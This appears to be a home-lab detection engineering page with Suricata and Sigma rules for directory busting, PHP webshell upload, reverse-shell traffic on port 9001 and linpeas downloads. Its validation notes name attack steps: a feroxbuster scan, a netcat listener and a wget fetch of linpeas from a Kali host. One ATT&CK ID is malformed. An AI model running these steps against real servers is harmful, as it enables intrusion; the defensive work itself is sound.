




# Web Server

This section documents custom suricata and sigma rules for my web server. Each item includes the **ATT&CK technique**, **signal logic**, and **validation evidence**.

## Directory Busting (T1595.0031)

**Suricata rule (inline):**
```suricata
alert http $HOME_NET any -> any any (msg:"WEB-APP possible directory busting"; flow:established,
to_client; http.stat_code; content:"301"; detection_filter:track by_dst, count 15, seconds 10; 
classtype:web-application-attack; sid:100002; rev:2;)
```

**Validation:** Ran `feroxbuster -u http://192.168.25.142 -w /usr/share/wordlists/dirbuster/directory-list.txt`; alert fired and triaged.
{ loading=lazy }

## Reverse Shell Upload (T1105 & T1190)

**Sigma rule (inline)**:
```zeek
title: 'Zeek HTTP Transfer of PHP File'
id: 7a2a8618-9b3c-4ace-bd19-270b4277fbbd
status: 'stable'
description: |
Alerts when Zeek logs show an HTTP-served file with MIME type "text/x-php" originating from 192.168.25.142. Useful for spotting potential webshell transfers.
author: 'Devin'
date: '2025/10/27'
logsource:
  service: http
  product: zeek
detection:
  selection:
    file.source: "HTTP"
    server.ip: "192.168.25.142"
    file.mime_type: "text/x-php"
    source.ip: "192.168.25.130"
  condition: selection
level: 'high'
```

**Validation:** Uploaded php reverse shell via the web app's file upload feature; alert fired and triaged.
{ loading=lazy }

## Reverse Shell Connection (T1505.003 & T1071.001)

**Sigma rule (inline)**:
```zeek
title: 'Zeek Outbound TCP 9001 (Potential PHP Reverse Shell)'
id: 0339b149-5d4e-4b36-8b56-c99be0aab027
status: 'experimental'
description: |
Detects outbound TCP connections to port 9001 in Zeek conn logs, a common default for PHP reverse shells.
author: 'Devin'
date: '2025/10/27'
logsource:
  service: http
  product: zeek
detection:
  selection:
    network.transport: "TCP"
    destination.port.keyword: "9001"
    source.ip: "192.168.25.142"
  condition: selection
level: 'high'
```

**Validation:** Ran `nc -nvlp 9001` on kali and clicked on the php reverse shell file in the uploads directory; alert fired and triaged.
{ loading=lazy }


## Download Linpeas (T1105)

**Suricata rule (inline)**:
```suricata
alert http $HOME_NET any -> any any ( msg:"LINUX linpeas download via wget"; flow:established,
to_server; http.user_agent; content:"Wget/"; nocase; classtype:policy-violation; sid:1157410; 
rev:1;)
```
**Validation:** Started python web server on kali and ran `wget http://192.168.25.130/linpeas.sh` from reverse shell; alert fired and triaged.
{ loading=lazy }
